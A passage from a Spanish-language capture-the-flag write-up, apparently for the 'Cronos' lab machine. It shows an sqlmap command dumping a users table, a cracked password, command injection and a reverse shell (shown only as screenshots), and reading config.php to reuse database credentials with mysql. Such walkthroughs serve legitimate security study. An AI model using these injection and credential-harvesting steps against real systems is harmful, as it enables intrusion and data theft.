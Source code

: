 Dumpear los datos de la tabla **users**:
```
sqlmap -r sqli_login —dump -D 'admin' -T users
```
![](https://i.imgur.com/HBGqyG4.png)

La contraseña es: 1327663704 la cual se obtiene de hashes.com.

# Obteniendo Acceso

## Ping - Inyección de comandos


![](https://i.imgur.com/7gQxbJN.png)

## Revershell

Se habilita un puerto en escucha

![](https://i.imgur.com/gfDyMsy.png)

Se injecta un comando para entablar un revershell

![](https://i.imgur.com/53gmY2G.png)

Se obtiene la revershell:

![](https://i.imgur.com/TeFVJwx.png)

## Adicional

El archivo **config.php** contiene credenciales para realizar una conexión a la base de datos **admin**:

```
www-data@cronos:/var/www/admin$ ls
config.php  index.php  logout.php  session.php  welcome.php
www-data@cronos:/var/www/admin$ cat config.php 
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```
Estableciendo conexión a la base de datos:
```
www-data@cronos:/var/www/admin$ mysql -u admin -pkEjdbRigfBHUREiNSDs admin 
```
Algunos comandos para obtener información de la base de datos:
